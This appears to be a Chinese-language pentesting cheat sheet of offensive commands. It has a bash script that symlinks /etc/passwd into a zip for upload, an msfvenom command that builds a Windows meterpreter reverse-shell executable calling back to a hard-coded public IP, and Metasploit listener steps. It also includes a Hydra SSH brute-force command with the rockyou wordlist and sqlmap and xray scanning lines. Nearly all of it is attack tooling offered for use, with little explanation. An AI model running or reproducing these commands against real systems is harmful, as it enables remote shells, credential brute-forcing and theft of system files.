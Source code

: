 
## 软链接
在/bin/mklink
使用 mklink /etc/passwd passwd
自动生成passwd.zip
```php
#!/bin/bash
ln -s $1 $2
zip --symlinks $2.zip $2
rm $2         
```

## GIT
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230705202542.png)


## nmap
## msf
msfvenom生成reverse_shell马
```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=115.236.153.174 LPORT=39063 -b "\x00" -i 10 -f exe -o /tmp/window_remote_hsk.exe
```

监听端口
```shell
msfconsole  //启动
​
use exploit/multi/handler  //开启监听 
​
set payload windows/meterpreter/reverse_tcp  //设置payload，选择漏洞利用模块
​
set lhost 192.168.36.134  //本地IP，即攻击IP
​
set lport 4444  //监听端口
​
exploit   //攻击
```

[msf后渗透测试萌新指南](https://www.anquanke.com/post/id/164525#h3-21)
[msf获取到session后的命令集合](https://blog.csdn.net/qq_39101049/article/details/96854716)

## Hydra

```
hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.240.52 ssh
```

## xray
```shell
//基础爬虫爬取并对爬虫爬取的链接进行漏洞扫描
xray webscan --basic-crawler http://example.com --html-output vuln.html
//使用代理
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
//扫描单个url
xray webscan --url http://example.com?a=b --html-output single-url.html

```


## sqlmap

```bash
sqlmap -u "<url>"

sqlmap -r "<http>.txt"

sqlmap -u "<url>" --data "<post>"
```